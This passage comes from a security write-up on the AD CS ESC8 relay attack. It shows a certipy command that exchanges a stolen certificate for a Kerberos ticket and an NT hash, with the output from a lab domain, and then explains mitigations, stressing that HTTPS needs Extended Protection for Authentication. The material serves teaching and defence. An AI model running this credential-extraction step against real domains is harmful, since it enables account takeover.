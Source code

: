And similarly to before, we can obtain the NTLM hash of the user account by exchanging the certificate for a TGT:

```
certipy auth -pfx 'doros_archivon.pfx' -dc-ip '10.3.20.31'                        
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Doros_ARCHIVON@jess.kingdom'
[*] Using principal: 'doros_archivon@jess.kingdom'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'doros_archivon.ccache'
[*] Wrote credential cache to 'doros_archivon.ccache'
[*] Trying to retrieve NT hash for 'doros_archivon'
[*] Got hash for 'doros_archivon@jess.kingdom': aad3b435b51404eeaad3b435b51404ee:96b5326207a074816bdd447bc7784ad4
```

## Mitigations

In the breaking whitepaper by SpecterOps: [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf). It is stated in `PREVENT8` that the following mitigations should be applied to prevent the exploitation of ESC8:

* Disable NTLM Authentication
* Enable HTTPS and Enable Extended Protection for Authentication (EPA)

In most environments, disabling NTLM authentication is not feasible, as it will break many legacy applications that rely on NTLM authentication. Additionally, recent research has shown that [relaying Kerberos is also possible](https://www.synacktiv.com/en/publications/relaying-kerberos-over-smb-using-krbrelayx).

### HTTPS + EPA

The second mitigation approach is more practical, however, many individuals incorrectly interpret the "and" requirement as an "or" option. It's important to recognize that simply implementing and enforcing `TLS` by itself will *not stop* ESC8 exploitation. `Extended Protection for Authentication (EPA)` is the security control that actually prevents relaying of NTLM authentication to the CA web endpoint.

Consider the following example, where the `PALACE-DC.jess.kingdom` CA web endpoint is configured to use `HTTPS` but does not have `EPA` enabled. This was configured with reference to the official documentation: [here](https://learn.microsoft.com/en-us/archive/technet-wiki/12039.active-directory-certificate-services-ad-cs-error-in-order-to-complete-certificate-enrollment-the-web-site-for-the-ca-must-be-configured-to-use-https-authentication)

![](./assets/img/sincon/85602aefecdf454d6e00f05aae6471bc.png)
